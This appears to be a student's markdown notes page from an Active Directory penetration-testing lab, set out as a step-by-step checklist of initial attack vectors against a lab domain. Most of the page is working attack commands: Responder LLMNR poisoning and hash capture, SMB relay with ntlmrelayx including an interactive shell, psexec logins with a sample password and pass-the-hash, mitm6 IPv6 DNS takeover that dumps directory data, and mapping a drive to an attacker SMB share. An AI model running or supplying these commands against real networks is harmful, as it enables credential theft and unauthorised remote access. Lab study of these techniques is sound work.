 
![[Pasted image 20241110154004.png]]

# Initial Attack Vectors

1st
- [ ] LLMNR Poisoning [[01 LLMNR Poising]]
```
sudo responder -I eth0 -dwP
```

```
sudo responder -I eth0 -dwPv
```

```
\\<Attacker_IP>
```

Make sure that SMB and HTTP is on


<hr>


- [ ] Capturing NTLMv2 Hashes with Responder [[1.1 Cracking Captured Hashes]]
```
hashcat --help | grep NTLM
```


<hr>

2nd 

- [ ] SMB Relay Attack [[02 SMB relay attack]]
```
nmap --script=smb2-security-mode.nse -p445 <ip_address>
```

```
nmap --script=smb2-security-mode.nse -p445 192.168.17.139 -Pn
```


Swipe Entire Network
```
nmap --script=smb2-security-mode.nse -p445 192.168.17.0/24 -Pn
```


 configuration changes to the responder
 ```
 nano /etc/responder/Responder.conf
```

```
SMB = OFF
HTTP = OFF
```

responder
```
sudo responder -I eth0 -dwPv 
```


NTLM relay (i.e. make sure to add the IP address of the host in the target.txt with SMB signing off)
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support
```

If want interactive shell
```
ntlmrelayx.py -tf ~root/HackTheBox/Active_Directory/target.txt -smb2support -i
```

```
nc 127.0.0.1 <port number>
```



<hr>

3rd 

- [ ] Gaining Shell [[03 Gaining shells]]
```
psexec.py MARVEL/fcastle:'Password1'@192.168.17.140
```

```
psexec.py <username>@<IP_192.168.17.140> -hashes :
```

wmiexec.py or smbexec.py

<hr>

4th

- [ ] IPV6 DNS Takeover via MIM6 [[04 IPv6 Attacks]]


Before running the above command we have to run the ntlm relay
```
ntlmrelayx.py -6 -t ldaps://192.168.17.139 -wh fakewpad.marvel.local -l lootme 
```


```
mitm6 -d marvel.local
```


<hr>

5th

- [ ] Passback Attacks
```
https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/
```


>[! bug] Give it is Try
>Capture NTLM hashes through SCF


<hr>

----------------------------------------------------END----------------------------------------------







# SMB Sever

Get a NEW PSDrive 
So to do that we have to put the user and password in Credential Object.
```
$pass = convertto-securestring 'testing' -AsPlainText -Force 
```

```
$cred= New-Object System.Management.Automation.PSCredential('testing', $pass)
```

```
New-PSDrive -Name testing -PSProvider FileSystem -Credential $cred -Root \\10.10.16.6\Hackthebox
```

